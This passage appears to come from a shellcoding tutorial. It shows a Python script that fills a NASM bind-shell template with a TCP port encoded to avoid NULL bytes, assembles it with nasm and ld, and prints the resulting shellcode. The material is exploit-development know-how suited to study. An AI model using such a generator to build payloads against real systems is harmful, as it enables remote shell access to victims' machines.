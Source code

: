 The program also requires `nasm` and `ld`, the latter should be present by default on Linux systems

```python
        print(f"[+] Object file generated at {output_file_path}")
        print(f"[+] Executable binary generated at {executable_path}")

        print_shellcode(object_file_path)
    except:
        print(traceback.format_exc())
        sys.exit(1)

def replace_template_values(template_name, tcp_port, output_file_path):

    with open(template_name) as f:
        template_code = f.read()

    tcp_port_hex = (tcp_port).to_bytes(2, "little").hex()

    if '00' in tcp_port_hex:
        if '00' in tcp_port_hex[:2]:
            non_null_byte = tcp_port_hex[2:]
            replace_code = f"mov bl, 0x{non_null_byte}\n    push bx\n    xor ebx, ebx"
        else:
            non_null_byte = tcp_port_hex[:2]
            replace_code = f"mov bh, 0x{non_null_byte}\n    push bx\n    xor ebx, ebx"
    else:
        replace_code = f"push WORD 0x{tcp_port_hex}"
```

These last instructions allows you avoid `NULL` bytes in the TCP port number. For example, the port `256` is converted to `0x0001` (big endian), while port `80` is converted to `0x5000`

```python
    template_code = template_code.replace("{{ TEMPLATE_TCP_PORT }}", replace_code, 1)
    
    with open(output_file_path, 'w') as f:
        f.write(template_code)

def main():

    parser = argparse.ArgumentParser()
    parser.add_argument('-p', '--port', type=int, help='TCP Port for the Bind Shell', required=True, metavar="[1-65535]")
    parser.add_argument('-t', '--template', help='Path of the NASM template file. Example: -t /tmp/template.nasm', required=True)
    parser.add_argument('-o', '--output', help='Path for the output file. Example: -o /tmp/output.nasm', required=True)

    args = parser.parse_args()

    tcp_port = args.port
    if tcp_port not in range(1, 65536):
        print(f"[!] Argument '--port' must be in range [1-65535]")
        sys.exit(1)

    shellcode_template = args.template
    output_file_path = args.output

    replace_template_values(shellcode_template, tcp_port, output_file_path)
    generate_shellcode(output_file_path)

if __name__ == '__main__':

    main()
```
